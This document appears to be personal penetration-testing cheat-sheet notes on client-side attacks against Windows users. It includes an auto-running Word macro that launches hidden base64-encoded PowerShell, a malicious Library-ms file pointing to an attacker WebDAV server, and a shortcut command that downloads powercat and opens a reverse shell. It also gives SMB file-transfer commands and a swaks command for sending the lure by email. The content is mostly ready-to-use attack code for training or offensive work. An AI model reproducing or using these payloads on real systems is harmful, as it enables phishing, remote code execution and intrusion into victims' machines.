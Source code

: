 # Target Reconnaissance
## Information Gathering

- Sweep for files e.g. pdf/ doc with Gobuster pattern
- Read file metadata
  
  ``` exiftool -a -u xxx.pdf ```

# Exploit Microsoft Office
## Macro Abuse
- With old .doc file
- macro func must enabled
- windows use utf-16le base64 decode encode
- smbserver to transfer files:
   sometimes anonymous dont work due to policy
   ``` 
   impacket-smbserver -smb2support -username kali -password kali share .
   \\ip-address-of-your-linux-machine\SHARE
   ```
- Advance tech transfer files 
   ```
    net use y: \\192.168.45.243\SHARE /user:kali kali
    Move-Item -Path 20240623021511_BloodHound.zip -Destination \\192.168.45.243\SHARE\20240623021511_BloodHound.zip
    ```

- Macro example: 
``` 
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
``` 

- useful post-exploit file transfer: https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/ 

## Execution vis Windows Library Files
- create a folder for this
1. Send email to victim containing 'config.Library-ms' which direct to malicious wsgidev 
    ``` 
    wsgidav --host=0.0.0.0 --port 80 --auth=anonymous --root /home/kali/webdav/
    ```

2. Edit IP variable to our kali and save as 'config.Library-ms' (extension = all files) then double click the file and copy paste itself into the folder
    ```
        <?xml version="1.0" encoding="UTF-8"?>
        <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
        <name>@windows.storage.dll,-34582</name>
        <version>6</version>
        <isLibraryPinned>true</isLibraryPinned>
        <iconReference>imageres.dll,-1003</iconReference>
        <templateInfo>
        <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
        </templateInfo>
        <searchConnectorDescriptionList>
        <searchConnectorDescription>
        <isDefaultSaveLocation>true</isDefaultSaveLocation>
        <isSupported>false</isSupported>
        <simpleLocation>
        <url>http://192.168.119.2</url>
        </simpleLocation>
        </searchConnectorDescription>
        </searchConnectorDescriptionList>
        </libraryDescription>
    ```
3. edit the .ink file (shortcut) to run reverse shell & change the file name to install
    ``` 
        powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
        powercat -c 192.168.119.3 -p 4444 -e powershell"
    ```
4. Prepare web server hosting powercat file
   ``` 
    cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
    python3 -m http.server 8000
    ```

## SMTP tool
Send email with given information e.g. receiver/sender, smtp server usrname pw
- SWAKS
  ``` sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach @config.Library-ms --server 192.168.151.199 --body body.txt --header "Subject: Problems" --suppress-data ```